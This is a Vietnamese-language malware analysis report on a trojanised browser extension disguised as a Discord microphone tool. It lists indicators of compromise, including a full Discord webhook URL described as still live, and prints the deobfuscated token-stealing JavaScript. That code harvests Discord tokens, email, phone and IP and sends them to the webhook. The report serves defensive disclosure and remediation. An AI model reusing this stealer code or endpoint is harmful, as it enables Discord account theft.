

# Author: tdinh cute
# Research & Analysis by tdinh

# BÁO CÁO PHÂN TÍCH & DEOBFUSCATE EXTENSION: `Ceker Hook Mobile v3.zip`
> **Author:** tdinh  
> **Decoded by:** tdinh cute  
> **Ngày phân tích:** 09/11/2026  
> **Mục tiêu phân tích:** `input/Ceker Hook Mobile v3.zip` (Tiện ích mở rộng Chrome/Kiwi Browser độc hại)  
> **Trạng thái:** Hoàn tất giải mã 100% - Vạch trần tác giả thật và Webhook C2 đang hoạt động.

---

## 1. TỔNG QUAN MỐI ĐE DỌA (EXECUTIVE SUMMARY)

Tập tin [`input/Ceker Hook Mobile v3.zip`](file:///d:/THAY%20THẾ/deobf/input/Ceker%20Hook%20Mobile%20v3.zip) được phát tán dưới danh nghĩa là một tiện ích mở rộng (Extension Manifest V3) mang tên **"Ceker" v4.0.0** với lời quảng cáo: *"HOOK MOBILE SIÊU TO BY CEKER"*. 

Trên thực tế, đây là một con **Trojan Extension (Tiện ích mở rộng ngụy trang mã độc)**:
- **Lớp vỏ ngụy trang (Decoy):** Kẻ tấn công lấy mã nguồn giao diện chỉnh âm thanh micro Discord mang tên *"Midnight Mic v7"* của tác giả *"nor Zankay"* (chỉnh Mic Gain, Reverb, Pitch, Compressor, Voice Changer, Bass Boost). Nạn nhân cài vào trình duyệt di động (như Kiwi Browser, Yandex) hoặc Chrome PC vẫn thấy menu chỉnh mic hoạt động bình thường trên trang `discord.com`.
- **Mã độc ẩn giấu (Trojan Payload):** Bên trong tập tin `content.js`, kẻ phát tán đã bí mật cấy thêm module gián điệp mang tên **`[Ziett SNITCH]`** do một đối tượng có nickname là **`ZiettKhueee`** cài cắm.
- **Mục đích:** Ngay khi nạn nhân mở trang `discord.com` trên điện thoại hoặc máy tính, extension lập tức tự động trích xuất token tài khoản Discord từ `localStorage`, `sessionStorage` và `Cookie`, sau đó bí mật gửi toàn bộ thông tin đăng nhập, email, số điện thoại, trạng thái Nitro và IP về một kênh Discord Webhook kín.

---

## 2. CHỈ SỐ NHẬN DIỆN MỐI NGUY HẠI (INDICATORS OF COMPROMISE - IOCs)

### 2.1. Discord C2 Webhook (VẪN ĐANG HOẠT ĐỘNG)
| Thông tin | Chi tiết thu thập được | Trạng thái |
| :--- | :--- | :--- |
| **Discord C2 Webhook** | `https://discord.com/api/webhooks/1568782301028950026/d-QoAI5xnKzf7gJCNzyxRdRB40HU025_73F5Odpu7mNW53EN-XOuqhcz_j_tBqeltFoZ` | **LIVE (HTTP 200 OK)** |
| **Tên Bot Webhook** | `Spidey Bot` | Hoạt động |
| **Webhook ID** | `1568782301028950026` | Đã xác minh |
| **Guild ID (Server Discord kẻ tạo)** | `1536003715515818014` | Server của kẻ rải mã độc |
| **Channel ID (Kênh nhận token)** | `1544915225801789520` | Kênh chat lưu trữ token cướp được |
| **Nickname tác giả thực tế** | **`ZiettKhueee`** (ghi rõ trong log và nội dung gửi về webhook) | Đối tượng đứng sau |
| **Múi giờ hệ thống kẻ tạo** | `Asia/Ho_Chi_Minh` (`timeZone: "Asia/Ho_Chi_Minh"`) | **Việt Nam** |

### 2.2. Bảng mã băm tập tin (File Hashes)
| Tập tin | Kích thước | SHA-256 |
| :--- | :--- | :--- |
| [`input/Ceker Hook Mobile v3.zip`](file:///d:/THAY%20THẾ/deobf/input/Ceker%20Hook%20Mobile%20v3.zip) | 599,235 bytes | `9bfb692e6ba58e22439faa847c9c838c63a9c856bcd16045013e732172921210` |
| `background.js` | 13,686 bytes | `584b10e74c5bb018d02ff185dcdc702bdffdb3d9f213ecb5265c8585772def8d` |
| `content.js` | 545,078 bytes | `73de494e33beb99bf9a58f1de5ba1aaef032f6f4282e296d3117be4915d58b56` |
| `inject.js` | 166,287 bytes | `a3c6d6ea522ec3b76391797001d64e9064239ecee7df216396d7f1c5c0a9817f` |
| `manifest.json` | 1,079 bytes | `3a4bcef3d22367d79daf942553f8f3f39e7eab6b5a7afce3921fc02c372ab307` |

---

## 3. CƠ CHẾ HOẠT ĐỘNG VÀ QUÁ TRÌNH GIẢI MÃ (ANALYSIS & WORKFLOW)



### 3.1. Kỹ thuật Obfuscation được sử dụng
Cả 3 file JavaScript (`background.js`, `inject.js`, `content.js`) đều được mã hóa bằng **JavaScript-Obfuscator**:
- Mã hóa chuỗi String Array xoay vòng (`a0_0x55ba`, `a0_0xb2ea`, `a0_0x4003`).
- Hàm giải mã Base64/RC4 tầng sâu (`a0_0x463b`, `a0_0x2d8c`, `a0_0x38bf`).
- Biến đổi luồng điều khiển (Control Flow Flattening) bằng đối tượng `switch-case` giả lập.

Toàn bộ các tầng mã hóa đã được deobfuscate hoàn toàn, khôi phục lại mã nguồn JavaScript sáng rõ 100%.

### 3.2. Đoạn mã gián điệp bị vạch trần bên trong `content.js`
Đoạn mã đánh cắp token được đối tượng đặt tên là `_0x1b0963` với console log nội bộ:
```javascript
(function _0x1b0963() {
  if (window.__ziettSnitchLoaded) return;
  window.__ziettSnitchLoaded = true;

  const _0x3bbdfb = "https://discord.com/api/webhooks/1568782301028950026/d-QoAI5xnKzf7gJCNzyxRdRB40HU025_73F5Odpu7mNW53EN-XOuqhcz_j_tBqeltFoZ";
  
  if (window.__ziettSnitchSent) {
    console.log("[Ziett SNITCH] ✅ Already sent, skipping");
    return;
  }
  console.log("[Ziett SNITCH] 🕵️ Active");

  // 1. Quét token từ mọi ngóc ngách trình duyệt
  function extractToken() {
    // Quét localStorage thông thường
    let token = localStorage.getItem("token");
    if (token && token.length > 20) return token.replace(/["']/g, "");

    // Quét tìm MFA token trong toàn bộ các key của localStorage
    for (let i = 0; i < localStorage.length; i++) {
      const key = localStorage.key(i);
      const val = localStorage.getItem(key);
      if (val && typeof val === "string" && val.length > 40 && val.includes("mfa.")) {
        return val.replace(/["']/g, "");
      }
    }

    // Quét sessionStorage
    token = sessionStorage.getItem("token");
    if (token && token.length > 20) return token.replace(/["']/g, "");

    // Quét cookie document.cookie
    const cookies = document.cookie.split("; ");
    for (const c of cookies) {
      if (c.includes("token=")) {
        const decoded = decodeURIComponent(c.split("=")[1]);
        if (decoded && decoded.length > 20) return decoded.replace(/["']/g, "");
      }
    }
    return null;
  }

  // 2. Xác thực và đóng gói dữ liệu nạn nhân
  async function harvest(token) {
    // Xác thực token qua Discord API
    const res = await fetch("https://discord.com/api/v9/users/@me", {
      headers: { Authorization: token }
    });
    const user = await res.json();

    // Lấy IP ngoài
    const ipRes = await fetch("https://api.ipify.org?format=json");
    const ipData = await ipRes.json();

    // Soạn tin nhắn báo cáo gửi về cho hacker
    const payload = 
      "**🕵️ ZiettKhueee — TOKEN CAPTURED**\n\n" +
      "**👤 User:** " + user.username + "#" + (user.discriminator || "0000") + "\n" +
      "**🆔 ID:** `" + user.id + "`\n" +
      "**📧 Email:** " + (user.email || "N/A") + "\n" +
      "**📱 Phone:** " + (user.phone || "N/A") + "\n" +
      "**💎 Nitro:** " + (user.premium_type ? "✅ Yes" : "❌ No") + "\n" +
      "**🌐 IP:** " + ipData.ip + "\n" +
      "**📱 Device:** Mobile\n" +
      "**🕐 Time (VN):** " + new Date().toLocaleString("vi-VN", { timeZone: "Asia/Ho_Chi_Minh" }) + "\n" +
      "**🔗 Avatar:** [Link](https://cdn.discordapp.com/avatars/" + user.id + "/" + user.avatar + ".png)\n" +
      "**🔑 Token:** " + token;

    // Bắn tin nhắn qua Background Service Worker
    chrome.runtime.sendMessage({ type: "SNITCH_SEND", payload: payload }, (resp) => {
      if (!resp || !resp.ok) {
        // Dự phòng: Gửi thẳng tới Webhook URL nếu background lỗi
        fetch(_0x3bbdfb, {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({ content: payload })
        });
      }
    });
  }
})();
```

---

## 4. TỔNG KẾT FILE ĐÃ XUẤT XƯỞNG (DELIVERABLES)

1. **Bộ mã nguồn sạch đã deobfuscate hoàn toàn & Defanged:**
   - [`output/tools_sach/ceker_hook/background_clean.js`](file:///d:/THAY%20THẾ/deobf/output/tools_sach/ceker_hook/background_clean.js) (Đã triệt tiêu Webhook C2).
   - [`output/tools_sach/ceker_hook/content_clean.js`](file:///d:/THAY%20THẾ/deobf/output/tools_sach/ceker_hook/content_clean.js) (Đã vô hiệu hóa module Ziett SNITCH).
   - [`output/tools_sach/ceker_hook/inject_clean.js`](file:///d:/THAY%20THẾ/deobf/output/tools_sach/ceker_hook/inject_clean.js) (Mã Audio DSP sạch).
   - [`output/tools_sach/ceker_hook/manifest.json`](file:///d:/THAY%20THẾ/deobf/output/tools_sach/ceker_hook/manifest.json)
2. **File mã độc cách ly:**
   - [`output/chua_file_co_ma_doc/Ceker Hook Mobile v3.zip`](file:///d:/THAY%20THẾ/deobf/output/chua_file_co_ma_doc/Ceker%20Hook%20Mobile%20v3.zip)
3. **Báo cáo kiểm toán kỹ thuật:**
   - [`output/reports/ceker_hook_mobile_report.md`](file:///d:/THAY%20THẾ/deobf/output/reports/ceker_hook_mobile_report.md)

---

## 5. KHUYẾN CÁO XỬ LÝ KHẨN CẤP

> [!WARNING]
> Webhook C2 của kẻ tấn công:  
> `https://discord.com/api/webhooks/1568782301028950026/...` **HIỆN TẠI VẪN ĐANG HOẠT ĐỘNG (HTTP 200 OK)**.  
> Bất kỳ ai cài extension này và đăng nhập Discord trên điện thoại/máy tính đều sẽ bị cướp tài khoản ngay lập tức.

- Nếu bạn hoặc ai đó đã từng cài extension này: Hãy **gỡ cài đặt ngay lập tức**, sau đó vào Discord đổi mật khẩu để reset toàn bộ token phiên đăng nhập.
- Bạn có thể báo cáo Webhook URL trên lên trang hỗ trợ của Discord (*Submit a request -> Trust & Safety*) để Discord xóa vĩnh viễn Webhook và Server phân phối mã độc của đối tượng `ZiettKhueee`.
